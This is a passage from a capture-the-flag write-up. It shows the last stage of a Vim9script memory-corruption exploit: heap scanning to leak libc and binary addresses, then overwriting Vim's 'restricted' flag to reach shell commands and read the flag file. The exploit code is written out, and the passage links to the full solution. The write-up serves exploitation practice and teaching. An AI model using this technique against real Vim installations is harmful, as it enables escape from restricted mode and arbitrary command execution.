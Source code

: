 Now we just have to scan the heap to leak libc, from that we can leak the
binary and overwrite the `restricted` bit.  
```vim  
var libc_leak: number = -1  
for i in range(blob_address - 0x10000, blob_address, 8)  
	var maybe_libc: number = ReadQWORD(blob_replace, blob_o, i)  
	if and(maybe_libc >> 40, 0xff) == 0x7f || and(maybe_libc >> 40, 0xff) == 0x7e  
		if and(maybe_libc, 0xfff) == 0xc00  
			libc_leak = maybe_libc  
			break  
		endif  
	endif  
endfor

var libc_address: number = libc_leak - 0x219c00  
var stdout_ptr: number = libc_address + 0x218e38  
var binary_leak = ReadQWORD(blob_replace, blob_o, stdout_ptr)  
var binary_address: number = binary_leak - 0x379568  
var restricted_address: number = binary_address + 0x384638  
SetBlobDataPtr(blob_replace, restricted_address)  
blob_o.b[0] = 0  # Also set `obj_class` to `NULL` so that the object doesn't
get freed and the script can happly end without crashing  
```

Finally we are not restricted anymore and we can cat the flag  
```  
!cat /flag  
```

[full
exploit](https://github.com/TeamItaly/TeamItalyCTF-2023/blob/master/colon-q-
exclamation-mark/solution.vim)

## Flag

`flag{blobs_are_op}`

Original writeup
(https://github.com/TeamItaly/TeamItalyCTF-2023/blob/master/colon-q-
exclamation-mark/README.md).